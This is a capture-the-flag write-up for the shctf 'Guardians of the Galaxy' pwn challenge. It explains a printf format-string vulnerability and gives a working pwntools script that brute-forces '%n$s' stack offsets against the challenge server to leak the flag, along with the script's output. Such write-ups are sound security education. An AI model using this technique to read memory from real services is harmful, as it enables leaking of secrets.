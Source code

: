 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
tags:
- ctf
- shctf
- pwn
description: "Writeup for the shctf pwn challenge [Guardians of the Galaxy]."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```


## 📜 Description

Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format?
`nc 0.cloud.chals.io 12690`
**Author**: GlitchArchetype

* [guardians](https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians)

---

## 🔍 Detailed Solution

Let's look at what happens when you run that binary given to us.

```text
$ ./guardians 
Error, please message admins with 'infinity_error'.
```

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

```text
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python/pwntools script here to achieve this loop:

```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.readS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

```text
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```
